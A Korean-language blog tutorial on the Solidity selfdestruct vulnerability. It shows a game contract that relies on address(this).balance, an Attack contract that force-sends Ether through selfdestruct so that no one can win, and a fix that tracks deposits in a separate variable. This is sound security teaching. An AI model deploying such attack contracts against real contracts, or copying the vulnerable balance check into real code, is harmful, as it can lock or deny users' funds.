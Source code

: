 ```yaml
---
emoji: 🧢
title: (취약점 시리즈 9) Self Destruct
date: '2021-01-09 17:29:00'
author: 한성원
tags: Self Destruct selfdestruct 취약점 SmartContract
categories: 취약점분석
---
```



# 👋 Self Destruct

## 들어가기전
### Self Destruct란 무엇인가?
1. self destruct는 contract를 삭제할 수 있는 유일한 수단이다.
2. contract안에 남아있는 Ether를 address에게 반환한다.

```solidity
selfdestruct(anAddress)
```

selfdestruct를 실행시키면 anAddress에게 contract에 남아있는 Ether이 반환된다. 만약에 반환하는 address는 EOA와 CA 모두 넣을 수 있다. 하지만 반환한 CA가 payable이 아니라면 반환된 Ether은 다시는 찾을 수 없게된다. 즉 반환된 CA에 영원히 __LOCK__ 된다.

보다 잘 이해하기 위해 Example Code를 살펴보자!!
- - -

## Example code
간단한 code로 이해해보자!
```solidity
contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // You can simply break the game by sending ether so that
        // the game balance >= 7 ether

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}
```
이 contract는 7번째로 deposit()하여 7 Ether를 가져갈 수 있는 게임이다.
deposit()을 call할 때 msg.value는 1 Ether만 설정할 수 있다.


시나리오는 이렇다.
1. EtherGame contract가 배포된다.
2. A와 B가 각각 1 Ether를 deposit() 한다.
3. 누군가 EtherGame contract의 주소와 함께 Attack contract를 배포한다.
4. 그리고 Attack.attack()을 call 한다.
5. EtherGame은 더 이상 실행될 수 없게되며 누구도 winner가 될 수 없게 된다.

EtherGame contract의 특성상 selfdestruct 공격에 취약할 수 밖에 없게 설계 되어있다. 


- - -

## How to prevent?
EtherGame contract에서 selfdestruct를 예방하기 위해서는 ```address(this).balance``` 대신 deposit()을 통해 들어온 balance를 따로 저장해주고 저장한 변수와 상호작용하면 된다. 위에 contract의 변수와 deposit()을 아래와 같이 바꾸면 된다!
```solidity 
contract EtherGame {
    uint public targetAmount = 3 ether;
    // 바뀐 부분!!!
    uint public balance;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        //바뀐 부분!!!
        balance += msg.value;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }
}
```

- - -

## 마무리
selfdestruct는 좀 흥미롭다. 블록체인 이외에서 들어본적도 없는 것이라 특별하다고 생각된다. 어떤 contract든 selfdestruct에 의해서 Ether를 받을 수 있다. 그렇기 때문에 ```address(this).balance```와 같은 contract의 balance를 사용해 balance를 불러오는 것을 자제하고 꼭 필요할때만 사용하자!!

- - -

### Reference
- https://swcregistry.io/docs/SWC-106
- https://solidity-by-example.org/hacks/self-destruct/

```toc

```